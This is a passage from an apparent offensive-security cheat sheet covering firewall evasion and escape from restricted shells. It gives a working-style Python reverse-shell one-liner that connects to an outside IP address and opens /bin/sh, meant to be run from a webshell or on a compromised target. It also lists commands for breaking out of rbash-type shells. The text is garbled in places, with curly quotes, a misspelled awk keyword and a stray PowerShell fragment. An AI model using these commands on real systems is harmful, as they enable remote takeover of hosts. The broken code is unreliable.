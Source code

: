 ```python

```

### Firewall Evasion with Python

Python reverse shell in case the target behind a firewall. Execute this inside a webshell or from within the target. Don't forget to setup listner at the attacking machine:

```python
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“54.186.248.116”,1234));os.dup2(s.fileno(),0); 

os.dup2(s.fileno(),1); 

os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

### Post-Compromise

#### Escaping restricted shells

Restricted shells are used for security reasons and to defend against privilege escalation attacks. Restricted shells namely \[rbash] , \[rsh] and \[rksh] limit what commands you can run to a limited set of commands. Restricted shells commonly prevent users from changing directories, setting PATH or SHELL variables, specifying absolute pathnames, and redirecting output. Some may even add additional limitations, which can be frustrating when attempting to compromise a targeted host from a restricted account!

To find out what restricted shell you are in

```
echo $SHELL
```

The methodology of escaping restricted shells boils down to error and trial. Try what commands you can run and take it from there. We will explore different scenarios and how you can escpae restricted shells based on what's allowed.

**'/' are allowed**

In that case just type the below command

```
/bin/sh
```

**PATH environment variable is allowed to be changed**

```
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/sh
```

**Using awk**

```
awk 'BEING {system('/bin/sh')}'
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"